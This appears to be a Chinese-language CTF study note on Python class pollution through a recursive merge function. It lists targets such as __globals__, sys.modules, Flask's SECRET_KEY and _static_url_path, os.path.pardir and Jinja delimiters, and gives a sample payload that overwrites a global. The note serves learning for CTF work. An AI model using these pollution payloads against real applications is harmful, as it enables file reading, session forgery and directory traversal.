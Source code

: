 tags:: CTF/Python

- # 前置知识点
	- python中每一个函数都有globals dunder，我们可以通过修改对象的globals dunder属性来修改`__file__`等全局变量
		- ```python
		  secret_var = 114
		  
		  def test():
		      pass
		  
		  class a:
		      def __init__(self):
		          pass
		  
		  print(test.__globals__ == globals() == a.__init__.__globals__)
		  ```
	- 题目中以下形式的函数会修改类的属性
		- ```python
		  def merge(src, dst):
		      # Recursive merge function
		      for k, v in src.items():
		          if hasattr(dst, '__getitem__'):
		              if dst.get(k) and type(v) == dict:
		                  merge(v, dst.get(k))
		              else:
		                  dst[k] = v
		          elif hasattr(dst, k) and type(v) == dict:
		              merge(v, getattr(dst, k))
		          else:
		              setattr(dst, k, v)
		  ```
	- `sys`模块的modules属性以字典的形式包含了程序自开始运行时所有已加载过的模块，可以直接从该属性中获取到所有模块
		- ```python
		  import sys
		  print(sys.modules.keys())
		  ```
	- importlib中的所有文件都引入了sys，且其中定义的loader对象在每一个模块的spec dunder中都可以找到
		- 所以我们可以通过`<模块名>.__spec__.loader.__init__.__globals__`找到sys模块，从而通过sys模块找到所有的模块进行污染
		- ```python
		  fenjing.__spec__.loader.__init__.__globals__["sys"]
		  ```
	- 函数的默认参数都在函数的`__defaults__`和`__kwdefaults__`这两个属性中，可以被污染
	- os.environ可以被污染
	- flask的SECRET_KEY，`_got_first_request`和`_static_url_path`可以被污染
		- `_static_url_path`污染成`/`即可通过类似`/static/proc/self/cmdline`的uri读取
	- `os.path.pardir`（也就是`..`）可以被污染，修改即可在flask渲染文件处实现目录穿越
	- jinja
		- 语法标识符`{{`等可以被污染
			- [参考](https://jinja.palletsprojects.com/en/3.1.x/api/#jinja2.Environment)
		- 渲染时拼接的文件头可以被污染
- # 示例
	- ```python
	  def merge(src, dst):
	      # Recursive merge function
	      for k, v in src.items():
	          if hasattr(dst, '__getitem__'):
	              if dst.get(k) and type(v) == dict:
	                  merge(v, dst.get(k))
	              else:
	                  dst[k] = v
	          elif hasattr(dst, k) and type(v) == dict:
	              merge(v, getattr(dst, k))
	          else:
	              setattr(dst, k, v)
	  
	  def f():
	      pass
	  
	  class A:
	      def __init__(self):
	          pass
	      def aaa(self):
	          pass
	  
	  secret = "114514"
	  a = A()
	  
	  # 假设环境有以上所示的函数和对象
	  # 我们就可以通过这个payload修改secret
	  payload = {
	      "__class__": {
	          "__init__": {
	              "__globals__": {
	                  "secret": "1919810"
	              }
	          }
	      }
	  }
	  merge(payload, a)
	  print(secret) # 1919810
	  ```
- > [参考](https://tttang.com/archive/1876/)